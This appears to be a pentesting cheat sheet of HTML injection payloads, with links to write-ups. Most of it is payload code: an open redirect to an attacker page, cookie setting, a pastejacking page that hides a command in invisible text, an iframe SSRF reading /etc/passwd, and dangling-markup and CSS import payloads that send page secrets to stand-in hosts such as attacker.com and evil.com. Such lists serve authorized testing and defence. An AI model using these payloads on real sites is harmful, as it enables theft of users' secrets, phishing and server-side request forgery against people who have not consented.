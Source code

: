 [**HTML Injection Exploitation/Escalation**](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)

* Open Redirect

```html
<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<meta http-equiv="refresh" content="0; url=http://h0tak88r.github.io" />
```

* Setting a Cookie

```html
<meta http-equiv="Set-Cookie" Content="SESSID=1">
```

* [Portal Tag](https://research.securitum.com/security-analysis-of-portal-element/)

```html
<portal src='https://attacker-server?
```

* [PasteJacking Attack](https://freedium.cfd/https://corneacristian.medium.com/methods-to-exploit-html-injection-17b4254035e)

```html
	<html>  
	   <body>  
	      <span style="display: block; float: left;">Copy me<br> </span>  
	      <span style="display: block; float: left; background: transparent; color: transparent; white-space: no-wrap; overflow: hidden; width: 0px; height: 0px;"> ; *Your Command/Payload Here* </span>  
	      <span style="display: block; float: left;">    
	</span>  
	      <span style="display: block; white-space: no-wrap;"> </span>  
	      <span style="display: block; clear: both;"></span>  
	    </body>  
	</html>
```

* [Defacement](https://medium.com/@lamscun/how-do-i-change-htmli-from-low-to-critical-your-email-box-is-safe-e7171efd88fe)
* [HTML Injection to SSRF](https://faizannehal.medium.com/how-you-can-escalate-a-simple-html-injection-into-a-critical-ssrf-8cd754e1a114) `<iframe src=https://yourwebsite.com/redirect.php?link=file:///etc/passwd></iframe>`
* Stealing clear text secrets

```html
<img src='http://attacker.com/log.php?HTML= <meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text= <meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```

* Abuse CSS

```html
<style>@import//hackvertor.co.uk?
<table background='//your-collaborator-id.burpcollaborator.net?'
```
